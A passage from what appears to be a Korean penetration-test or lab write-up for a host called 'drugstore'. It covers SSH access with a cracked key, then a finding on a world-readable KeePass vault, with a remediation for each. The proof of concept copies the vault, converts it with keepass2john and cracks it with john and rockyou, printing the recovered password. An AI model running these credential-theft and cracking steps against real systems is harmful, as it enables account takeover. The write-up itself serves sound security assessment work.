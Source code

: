 passphrase 값을 알아냈으므로 ssh를 사용하여 architect유저로 접속 성공했다.
```sh
──(kali㉿kali)-[~/drugstore]
└─$ ssh -i architect_id_rsa architect@172.31.177.177
Enter passphrase for key 'architect_id_rsa':
                            [...]
architect@ip-172-31-177-177:~$
```

#### 대응 방안
architect_id_rsa 파일의 권한을 파일의 소유자인 root만이 읽고 쓸수 있게 권한을 설정한다.
```sh
chmod 600 architect_id_rsa
```

#### 레퍼런스

### 3. 잘못된 kdbx 파일 권한 설정
#### 취약점 개요

|정보|설명|
|----|----|
|이름|잘못된 kdbx 파일 권한 설정|
|중요도|상|

#### 취약점 설명
kdbx 파일의 권한을 임의의 사용자가 읽고 쓰고 실행할 수 있게 설정해 놓았기 때문에 임의의 공격자가 해당 파일 탈취 할 수 있는 취약점 이다.

#### 개념 증명
점검자는 해당 파일 탈취 후 파일을 john 형식으로 변경한 뒤 패스워드 크래킹을 진행하였고, 성공하여 root 계정의 패스워드를 획득하였다.
```sh
architect@ip-172-31-192-83:~$ ls -al
total 32
drwxr-x--- 4 architect architect 4096 Aug 27 11:23 .
drwxr-xr-x 4 root      root      4096 Oct  7  2023 ..
-rw-r--r-- 1 architect architect  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 architect architect 3771 Jan  6  2022 .bashrc
drwx------ 2 architect architect 4096 Aug 27 11:23 .cache
-rw-r--r-- 1 architect architect  807 Jan  6  2022 .profile
drwx------ 2 architect architect 4096 Oct  7  2023 .ssh
-r--r--rwx 1 root      root      1422 Oct  7  2023 architect-vault.kdbx

┌──(kali㉿kali)-[~/drugstore]
└─$ scp -i architect_id_rsa architect@172.31.177.177:/home/architect/architect-vault.kdbx .
Enter passphrase for key 'architect_id_rsa': 
architect-vault.kdbx

┌──(kali㉿kali)-[~/drugstore]
└─$ keepass2john architect-vault.kdbx > architect-vault.hash

┌──(kali㉿kali)-[~/drugstore]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt architect-vault.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 10000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
london           (architect-vault)      # keepass 패스워드
1g 0:00:00:00 DONE (2024-08-27 06:18) 1.639g/s 786.8p/s 786.8c/s 786.8C/s linda..marie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```